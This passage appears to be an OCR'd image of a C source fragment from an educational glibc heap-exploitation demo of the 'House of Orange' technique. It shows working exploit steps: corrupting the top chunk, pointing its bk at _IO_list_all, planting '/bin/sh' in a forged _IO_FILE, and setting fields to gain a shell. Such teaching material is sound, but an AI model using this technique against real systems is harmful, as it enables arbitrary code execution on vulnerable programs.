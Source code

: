 ```c
      Here, we require that chunk->bk->fd to be the value of _IO_list_all.
      So, we should set chunk->bk to be _IO_list_all - 16
    */
 
    top[3] = io_list_all - 0x10;

    /*
      At the end, the system function will be invoked with the pointer to this file pointer.
      If we fill the first 8 bytes with /bin/sh, it is equivalent to system(/bin/sh)
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    /*
      The function _IO_flush_all_lockp iterates through the file pointer linked-list
      in _IO_list_all.
      Since we can only overwrite this address with main_arena's unsorted-bin-list,
      the idea is to get control over the memory at the corresponding fd-ptr.
      The address of the next file pointer is located at base_address+0x68.
      This corresponds to smallbin-4, which holds all the smallbins of
      sizes between 90 and 98. For further information about the libc's bin organisation
      see: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/

      Since we overflow the old top chunk, we also control it's size field.
      Here it gets a little bit tricky, currently the old top chunk is in the
      unsortedbin list. For each allocation, malloc tries to serve the chunks
      in this list first, therefore, iterates over the list.
      Furthermore, it will sort all non-fitting chunks into the corresponding bins.
      If we set the size to 0x61 (97) (prev_inuse bit has to be set)
      and trigger an non fitting smaller allocation, malloc will sort the old chunk into the
      smallbin-4. Since this bin is currently empty the old top chunk will be the new head,
      therefore, occupying the smallbin[4] location in the main_arena and
      eventually representing the fake file pointer's fd-ptr.

      In addition to sorting, malloc will also perform certain size checks on them,
      so after sorting the old top chunk and following the bogus fd pointer
      to _IO_list_all, it will check the corresponding size field, detect
      that the size is smaller than MINSIZE "size <= 2 * SIZE_SZ"
      and finally triggering the abort call that gets our chain rolling.
      Here is the corresponding code in the libc:
      https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#3717
    */

    top[1] = 0x61;

    /*
      Now comes the part where we satisfy the constraints on the fake file pointer
      required by the function _IO_flush_all_lockp and tested here:
      https://code.woboq.org/userspace/glibc/libio/genops.c.html#813

      We want to satisfy the first condition:
      fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base
    */

    _IO_FILE *fp = (_IO_FILE *) top;


    /*
      1. Set mode to 0: fp->_mode <= 0
    */

    fp->_mode = 0; // top+0xc0

```